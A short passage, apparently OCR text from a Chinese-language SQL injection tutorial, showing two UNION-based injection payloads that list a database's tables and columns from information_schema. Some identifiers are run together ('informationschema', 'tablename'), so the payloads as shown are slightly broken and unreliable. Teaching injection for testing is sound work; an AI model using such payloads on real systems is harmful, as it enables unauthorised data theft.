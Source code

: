 要提取表的列表，我们可以使用:

`1' UNION SELECT 1,tablename FROM informationschema.tables;- -`

![UNION-based SQL Injection extracting data](img/25d0091888995caba6890fa3108e2f6a.png)

要获得列名，我们可以使用:

`1' UNION SELECT 1,columnname FROM informationschema.columns;- -`

